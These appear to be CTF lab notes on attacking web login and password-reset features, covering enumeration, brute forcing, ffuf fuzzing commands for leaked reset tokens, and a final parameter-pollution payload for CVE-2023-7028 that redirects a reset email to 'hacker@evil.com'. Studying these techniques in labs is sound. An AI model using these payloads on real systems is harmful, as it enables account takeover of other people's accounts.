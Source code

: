 ____

# Weak Passwords

![[Pasted image 20241217114441.png]]

# Default Passwords

Search for "Default credentials" on google

# Username enumeration through errors

Username is invalid

![[Pasted image 20241217120440.png]]
# Username Enumeration Through Forgot Password Function

Invalid username supplied

![[Pasted image 20241217122422.png]]

# Brute Forcing Username and Password

Cluster-bomb

# Self Registration Using Content Discovery

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/hidden-registration/user_FUZZ -w content.txt
```

![[Pasted image 20241217123723.png]]

## Javascript Files

![[Pasted image 20241217123935.png]]

## APIs

Leaked ``/by-api/api/auth/login/``

![[Pasted image 20241217124748.png]]

# Brute Forcing One-Time Password (OTP)

![[Pasted image 20241217125652.png]]

# Leaked Password Reset Tokens
## 1
![[Pasted image 20241217131421.png]]

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/reset-token-leak/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![[Pasted image 20241217131733.png]]

![[Pasted image 20241217131757.png]]

![[Pasted image 20241217131922.png]]

## 2

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/api-token-leak/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![[Pasted image 20241217133540.png]]

# Forced Password Reset

Add email field, 
![[Pasted image 20241217134424.png]]

https://github.com/Vozec/CVE-2023-7028


```
user[email][]=my.target@example.com&user[email][]=hacker@evil.com
```